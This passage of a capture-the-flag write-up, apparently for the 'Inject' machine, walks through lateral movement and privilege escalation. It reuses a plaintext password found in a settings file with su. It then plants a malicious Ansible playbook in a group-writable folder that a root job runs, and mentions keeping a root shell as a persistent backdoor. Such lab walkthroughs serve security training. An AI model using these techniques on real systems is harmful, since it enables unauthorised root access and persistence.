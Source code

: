 ## Lateral Movement

We have a shell as **frank**, I have searched and ran Linpeas to find any juicy info. but nothing much found.

From previous information gathering, we had _settings.xml_ related to **phil**. We can try those creds using `su` to get a session as `phil`.

```xml
<username>phil</username>
      <password>DocPhillovestoInject123</password>
```

```console
$ su - phil
Enter password: DocPhillovestoInject123
```

We have just upgraded our shell to user `phil`. we can read `user.txt` in phil's folder.

## Privilege Escalation

We can improve our current basic shell using python command.

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

After running Linpeas script, we can find out that there is an ansible playbook file in below path.

`$ cat /opt/automation/tasks/playbook_1.yml`

```yml
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```

If you check the permission on the folder `tasks`, the group `staff` has all the permissions to execute the files in this folder. so, we can assume that there is an automated job running all files available in `tasks` folder. so we can create an ansible playbook in this folder, to read `root.txt` file. 

```console
$ phil@inject:/opt/automation$ ls -al
total 12
drwxr-xr-x 3 root root  4096 Oct 20  2022 .
drwxr-xr-x 3 root root  4096 Oct 20  2022 ..
drwxrwxr-x 2 root staff 4096 Jul 22 17:34 tasks

$ phil@inject:/opt/automation$ id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
```

```yml
- hosts: localhost
  tasks:
  - name: 'read root.txt and save it local'
    shell: cat root.txt >> /home/phil/root.txt
```
Create the above file with code in same folder, as `playbook_2.yml`. Once the automated job triggers ( wait for 5 minutes) this playbook, we will have the root.txt in `/home/phil/root.txt`. We could also, copy `/bin/bash` to our folder,and have a persistent shell with root privileges, with the help of ansible playbook. This completes our machine. 

`$ cat /home/phil/root.txt`